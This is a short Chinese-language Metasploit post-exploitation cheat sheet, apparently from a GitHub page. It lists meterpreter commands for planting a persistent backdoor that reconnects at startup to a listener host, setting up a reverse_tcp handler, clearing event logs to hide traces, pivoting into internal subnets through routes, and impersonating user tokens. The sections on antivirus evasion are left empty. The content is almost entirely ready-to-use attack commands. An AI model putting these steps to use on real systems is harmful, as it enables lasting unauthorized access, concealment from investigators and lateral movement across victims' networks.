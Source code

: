 ### 持久后门

创建后门：

```
run persistence -X -i 5 -p 8888 192.168.29.134 #-X随系统启动 -i间隔5秒重连
```

本地建立监听：

```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
show options
set LHOST 192.168.29.134
set LPORT 8888
exploit
```

清除痕迹：

```
clearev
```

搭建跳板：

```
run get_local_subnets #查看目标系统上的子网
background #session id为1 回到MSF会话
route add 192.168.1.0 255.255.255.0 1 #向session id为1的会话添加C段为1的路由
route print #查看已有路由

#也可在MSF会话中自动添加路由：
load auto_add_route
exploit
```

### 假冒令牌

在Meterpreter会话中加载incognito模块：

```
use incognito
list_tokens -u #列举所有可用令牌
impersonate_token AA-886OKJM26FSW\\Test #假冒Test用户
```

## 免杀

### Veil Evasion

略。

## msfcli

略。
